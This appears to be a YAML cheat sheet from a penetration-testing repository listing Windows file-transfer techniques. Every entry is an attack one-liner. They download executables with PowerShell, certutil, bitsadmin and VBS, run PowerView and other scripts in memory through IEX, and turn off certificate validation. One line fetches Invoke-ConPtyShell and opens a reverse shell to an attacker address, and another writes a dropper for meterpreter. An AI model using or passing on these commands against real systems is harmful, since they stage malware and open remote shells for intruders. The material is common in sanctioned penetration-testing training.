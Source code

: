 ```yaml
---
functions:
  file-transfer:
    - description: Download Files
      code: |
        powershell -c iwr -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing
        
        Invoke-Webrequest -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing
        
        certutil.exe -urlcache -f http://192.168.1.1:8080/get.exe get.exe

        powershell -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).DownloadFile('https://68.183.217.18:56789/svchosts.exe','svchosts.exe')"

        POWERSHELL


        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
    
        Ignore Cert Trusts - [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    
        (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.149/file.exe', 'here.exe')

        CERTUTIL


        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        PS BITSADMIN


        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        BITSADMIN
        

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        VBS


        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        IE


        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml
resources: |

---
```

